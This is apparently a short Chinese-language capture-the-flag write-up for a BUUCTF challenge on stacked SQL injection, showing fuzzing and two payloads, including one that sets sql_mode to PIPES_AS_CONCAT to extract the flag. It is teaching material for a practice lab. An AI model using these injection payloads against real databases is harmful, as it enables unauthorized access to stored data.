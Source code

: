 ### 堆叠注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/682af51d58cb8da5c8fc1af7.jpg)

正常输入

![](https://pic1.imgdb.cn/item/682af53158cb8da5c8fc1b86.jpg)

爆破测 fuzz

![](https://pic1.imgdb.cn/item/682af54258cb8da5c8fc1b94.jpg)

发现 `;` 没有过滤，可以堆叠注入

![](https://pic1.imgdb.cn/item/682af55d58cb8da5c8fc1cc1.jpg)

成功爆出数据库

```sql
11;show database;
```

![](https://pic1.imgdb.cn/item/682af58358cb8da5c8fc1d1e.jpg)

输入字符则没有回显推测后端使用了 `||`

在 SQL 中 `||` 用于连接字符，但这里应该是将 `||` 当作了运算符而不是连接符

![](https://pic1.imgdb.cn/item/682af8bc58cb8da5c8fc26b6.jpg)

![](https://pic1.imgdb.cn/item/682af69058cb8da5c8fc2165.jpg)

插入数字没事，但如果是不存在的字符则报错

![](https://pic1.imgdb.cn/item/682af90358cb8da5c8fc2721.jpg)

所以思路就是用数字找 flag，同时修改配置将 || 当作连接符

```sql
1;set sql_mode=PIPES_AS_CONCAT;select 1
```

![](https://pic1.imgdb.cn/item/682af99058cb8da5c8fc27ca.jpg)